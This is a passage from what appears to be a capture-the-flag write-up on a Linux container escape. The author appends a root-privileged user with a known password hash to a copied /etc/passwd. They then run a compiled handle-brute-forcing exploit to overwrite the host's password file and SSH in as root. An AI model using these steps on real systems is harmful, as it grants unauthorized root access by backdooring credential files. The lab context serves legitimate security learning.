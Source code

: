 ```
> sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
> systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
> lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
> saul:x:1000:1000:Saul,,,:/home/saul:/bin/bash' > passwd
root@c150397ccd63:~# echo 'oxdf:$1$FWS43Ezm$fKjubC8uKDJ9W9dmD78QP0:0:0:pwned:/root:/bin/bash' >> passwd  

```

I’ll run the exploit:

```

root@c150397ccd63:~# ./sw /etc/passwd passwd
...[snip]...
[*] Brute forcing remaining 32bit. This can take a while...
[*] (passwd) Trying: 0x00000000
[*] #=8, 1, char nh[] = {0xb7, 0x06, 0x06, 0x00, 0x00, 0x00, 0x00, 0x00};
[!] Got a final handle!
[*] #=8, 1, char nh[] = {0xb7, 0x06, 0x06, 0x00, 0x00, 0x00, 0x00, 0x00};
Success!!

```

It reports success. If it did, I can SSH as oxdf and get a shell as root. It works:

```

saul@talkative:/dev/shm$ ssh oxdf@127.0.0.1
oxdf@127.0.0.1's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-81-generic x86_64)
...[snip]...
root@talkative:~#

```